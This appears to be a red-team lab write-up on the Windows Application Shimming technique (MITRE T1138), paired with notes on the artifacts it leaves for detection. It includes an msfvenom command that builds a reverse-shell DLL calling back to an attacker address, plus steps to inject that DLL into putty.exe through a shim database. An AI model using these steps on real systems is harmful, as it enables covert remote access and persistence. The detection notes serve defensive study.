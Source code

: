 ```yaml
---
description: 'Persistence, Privilege Escalation'
---
```


# T1138: Application Shimming

## Execution

In this exercise, [Compatibility Administrator](https://www.microsoft.com/en-us/download/details.aspx?id=7352) will be abused to inject a malicious payload into putty.exe process, which will connect back to our attacking machine.

Generating malicious payload stored as a 32-bit DLL:

{% code-tabs %}
{% code-tabs-item title="attacker@kali" %}
```csharp
msfvenom -p windows/shell_reverse_tcp LHOST=10.0.0.5 LPORT=443 -f dll > evil32.dll
```
{% endcode-tabs-item %}
{% endcode-tabs %}

Creating a shim fix for putty.exe - this is the "fix" that will get our malicious DLL injected into putty.exe when it is launched next time:

![](../.gitbook/assets/shim-new-fix.png)

![](../.gitbook/assets/shim-injectdll.png)

![](../.gitbook/assets/shim-cmdline.png)

Installing the shim fixes database we created earlier onto the victim machine using a native windows utility:

{% code-tabs %}
{% code-tabs-item title="attacker@victim" %}
```csharp
sdbinst.exe C:\experiments\mantvydas.sdb
```
{% endcode-tabs-item %}
{% endcode-tabs %}

Launching putty.exe on the victim machine, sends us our reverse shell - DLL injection worked:

![](../.gitbook/assets/shim-shell.png)

## Observations

We can see putty.exe has loaded the evil32.dll:

![](../.gitbook/assets/putty-evil32.png)

Note, however, immediately after executing the payload, evil32.dll cannot be observed in the loaded system DLLs:

![](../.gitbook/assets/shim-rundll32.png)

The sdbinst.exe leaves the following behind:

* fix name "mantvydas" \(we set it in the first step of the shim fix creation\) in the "Installed applications" list
* the fix db itself gets copied over to `%WINDIR%\AppPatch\custom OR %WINDIR%\AppPatch\AppPatch64\Custom`
* registry key pointing to the custom fixes db gets added

All of the above can be seen here:

![](../.gitbook/assets/shim-remnants.png)

Note that it is possible to install the shim fixes manually without leaving the trace in the "Installed applications" list, however the fixes db will will still have to be written to the disk and the registry will have to be modified:

![](../.gitbook/assets/shim-sysmon.png)

Correlate it with other events exhibited by the application that has been fixed and you may see something you might want to investigate further:

![](../.gitbook/assets/shim-connection.png)

{% embed url="https://attack.mitre.org/wiki/Technique/T1138" %}

{% embed url="https://blacksunhackers.club/2016/08/post-exploitation-persistence-with-application-shims-intro/" %}

